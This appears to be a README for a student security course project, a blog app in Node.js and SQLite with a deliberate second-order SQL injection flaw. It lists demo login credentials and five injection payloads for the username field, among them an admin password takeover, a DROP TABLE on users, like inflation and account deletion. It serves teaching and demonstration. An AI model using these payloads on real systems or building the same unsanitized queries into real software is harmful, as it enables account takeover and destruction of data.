 ### TDA602 Course Project - Second-Order SQL Injection

This project demonstrates a second-order SQL injection vulnerability in a blog website.
The code is written in Node.js and SQLite, and this is a self-made blog created and designed by us. We intentionally added some lack of security measures to make the second-order SQL injection attacks possible, allowing us to demonstrate the vulnerability and emphasize the importance of proper security practices when developing web applications.

Users can create new accounts and write blog posts after logging in. Each post can be liked once, 
and the posts are sorted by the number of likes, with the most liked posts appearing at the top. 
As an admin, you have also the privilege to remove these posts.
The second-order injection attack can be performed by registering a new account with a malicious SQL 
command in the username field and then updating the password. Further details are provided below.

## Current Accounts:

Admin - Username: "Admin", Password: "dontHack"

Ava - Username: "Ava", Password: "password1"

JARVIS - Username: "JARVIS", Password: "password2"

Skynet - Username: "Skynet", Password: "password3"


## Second-Order Injection Attacks:

To perform a second-order SQL injection attack, first register a new user with an SQL injection command as the username. 
Then, log in as the new user and update the password. Afterward, the SQL command will be executed.

Examples of second-order SQL injection attacks:

1) Change the Admin's password (not the "Admin’ —" account):

```sql
Admin' --
```

2) Drop all users:

```sql
'; DROP TABLE users --
```

3) Add likes to a specific blog post (replace id with the blog post ID you want to modify, same with amount of likes):

```sql
'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --
```

4) Remove the new account
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) --
```

5) Remove last account and any other you specify
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) OR username = "'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --" --
```

